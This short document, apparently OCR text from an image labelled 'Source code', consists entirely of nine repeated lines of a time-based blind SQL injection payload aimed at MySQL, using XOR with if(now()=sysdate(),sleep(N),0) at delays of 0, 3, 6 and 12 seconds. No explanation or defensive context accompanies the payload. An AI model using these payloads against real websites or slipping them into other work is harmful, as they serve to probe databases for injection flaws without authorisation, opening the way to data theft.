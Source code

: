 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(3),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
